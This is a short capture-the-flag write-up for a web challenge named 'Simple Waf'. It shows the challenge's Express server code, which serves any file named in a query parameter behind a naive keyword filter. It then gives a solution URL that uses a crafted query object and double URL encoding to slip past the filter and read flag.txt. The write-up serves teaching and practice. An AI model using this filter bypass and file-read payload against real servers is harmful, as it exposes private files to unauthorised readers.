




# Simple Waf

  


We follow the provided link to the next page.

  

We can see in the URL that we can access files. 

  

We can access main.js to get info about the webpage.

```js
const express = require("express");

const fs = require("fs");

const app = express();

const PORT = process.env.PORT || 3456;

app.use((req, res, next) => {
    if([req.body, req.headers, req.query].some(
        (item) => item && JSON.stringify(item).includes("flag")
    )) {
        return res.send("bad hacker!");
    }
    next();
});

app.get("/", (req, res) => {
    try {
        res.setHeader("Content-Type", "text/html");
        res.send(fs.readFileSync(req.query.file || "index.html").toString());       
    }
    catch(err) {
        console.log(err);
        res.status(500).send("Internal server error");
    }
});

app.listen(PORT, () => console.log(`web/simplewaf listening on port ${PORT}`));
```

There is a validation that checks if the flag is present in the request. If it is, it returns a "bad hacker" response. The flag is probably at flag.txt (or another extension).

As the code says, if we request the flag, we get the response mensioned above.

  

So... what If I encode the "flag" in the request?

- Solution

```
https://web-simplewaf-648d0d347a3ce6fa.be.ax/?file[href]=x&file[origin]=x&file[protocol]=file:&file[hostname]=&file[pathname]=fl%2561g.txt
```